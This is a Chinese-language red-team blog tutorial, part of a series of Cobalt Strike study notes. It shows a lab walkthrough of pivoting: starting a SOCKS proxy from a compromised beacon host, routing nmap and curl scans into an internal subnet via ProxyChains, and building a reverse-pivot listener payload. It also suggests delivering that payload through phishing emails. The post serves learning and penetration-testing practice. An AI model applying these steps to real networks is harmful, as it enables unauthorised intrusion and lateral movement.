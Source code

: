 ```yaml
---
title: 【CS学习笔记】21、反向转发通道的建立
date: 2020-04-19 15:06:51
id: 200419-150651
sanmary: 这一节将介绍使用 ProxyChains 进行代理转发与使用反向转发的方法。
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs21-1.png
tags:
- Cobalt Strike
- 学习笔记
- 红队
categories:
- CS 学习笔记
---
```


# 0x00 前言

这一节将介绍使用 ProxyChains 进行代理转发与使用反向转发的方法。

# 0x01 使用 ProxyChains 进行代理转发

## 介绍

使用 ProxyChains 可以使我们为没有代理配置功能的软件强制使用代理

1. 和[上一节](https://teamssix.com/year/200419-150644.html)中介绍的一致，开启一个 socks 代理服务
2. 配置 `/etc/proxychains.conf` 文件
3. 运行 `proxychains + 待执行命令`

## 演示

接下来继续[上一节](https://teamssix.com/year/200419-150644.html)中的演示环境：

> 攻击机 IP：192.168.175.200
>
> 上线主机：外部IP 192.168.175.130、内部IP 192.168.232.133
>
> 攻击目标：192.168.232.0/24 地址段

### 1、设置 socks 代理

首先开启交互模式，之后开启 socks 代理

```
sleep 0
socks 9527
```

```powershell
beacon> sleep 0
[*] Tasked beacon to become interactive
[+] host called home, sent: 16 bytes
beacon> socks 9527
[+] host called home, sent: 16 bytes
[+] started SOCKS4a server on: 9527
```

### 2、配置  ProxyChains 

在攻击机上，配置 `/etc/proxychains.conf` 文件的最后一行，根据当前攻击主机 IP 与设置的 Socks 端口，修改如下：

```
socks4 192.168.175.200 9527
```

### 3、开始使用  ProxyChains 

根据[上一节](https://teamssix.com/year/200419-150644.html)使用 Metasploit 的扫描可以知道，在 192.168.232.0/24 地址段中存在主机 192.168.232.132 ，接下来使用 nmap 扫描一下常见的端口，这里以 80,443,445,3389 作为演示。

```
proxychains nmap -sT -Pn 192.168.232.132 -p 80,443,445,3389
```

> -sT：使用 TCP 扫描
>
> -Pn：不使用 Ping
>
> -p：指定扫描端口
>
> 注：不加上 -sT -Pn 参数，将无法使用 proxychains 进行代理扫描

```powershell
> proxychains nmap -sT -Pn 192.168.232.132 -p 80,443,445,3389                       
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 23:05 EDT
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:80  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:445  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:3389  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:443 <--denied
Nmap scan report for 192.168.232.132
Host is up (0.19s latency).

PORT     STATE  SERVICE
80/tcp   open   http
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
```

通过扫描可以看到目标 80 端口是开放的，接下来使用 curl 作为对比示例。

```
curl 192.168.232.132
proxychains curl 192.168.232.132
```

```powershell
> curl 192.168.232.132
curl: (7) Failed to connect to 192.168.232.132 port 80: No route to host

> proxychains curl 192.168.232.132
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:80  ...  OK
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
……内容太多，此处省略……                 
```

# 0x02 反向转发

反向转发顾名思义就是和[上一节](https://teamssix.com/year/200419-150644.html)中提到的转发路径相反，之前我们设置的代理是 `CS服务端 --> 上线主机 --> 内网主机`，反向转发则是 `内网主机 --> 上线主机 --> CS服务端`。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs21-1.png)

继续使用上面的演示环境，首先右击上线主机会话，选择 `Pivoting --> Listener` ，除了 Name 选项之外，CS 都会自动配置好，这里直接使用默认的配置信息。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs21-2.png)

之后生成一个 Windows 可执行文件，选择上一步生成的监听器，如果目标是 64 位则勾选使用 x64 Payload 的选项。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs21-3.png)

之后将该可执行文件在目标主机上执行即可，在现实环境中可以尝试使用钓鱼邮件的方式诱导目标执行。

当目标执行该文件后，就会发现当前不出网的 192.168.232.132 主机已经上线了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs21-4.png)

有一说一，关于这部分网上大部分教程还是 CS 3.x 版本的教程，而在 4.0 的操作中个人感觉要方便很多。

网上关于这部分内容的 CS 4.0 的教程真的是少之又少，一开始在参考 3.x 教程的时候踩了很多坑，最后终于某内部知识库发现了一篇关于这部分内容的 4.0 教程，在该教程的参考下才发现居然如此简单。

> 参考链接：[https://www.bilibili.com/video/BV16b411i7n5](https://www.bilibili.com/video/BV16b411i7n5)
> 
>更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)